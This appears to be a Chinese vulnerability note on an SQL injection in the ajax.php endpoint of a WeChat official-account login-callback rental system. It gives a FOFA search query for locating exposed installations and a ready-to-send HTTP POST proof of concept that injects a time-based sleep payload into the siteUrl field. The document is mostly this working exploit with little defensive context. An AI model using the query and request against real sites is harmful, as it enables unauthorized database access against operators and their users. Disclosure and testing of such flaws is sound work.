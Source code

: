 **fofa**

```
title=="公众号无限回调系统"
```

**一、漏洞简述**

微信公众平台回调系统是公众号登录接口租用/出售管理系统，适用场景：H5游戏，H5网站，适用于一切需要公众号登录接口的H5网站。其接口ajax.php存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
POST /user/ajax.php?act=siteadd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 27

siteUrl=';select sleep(5)#'
```

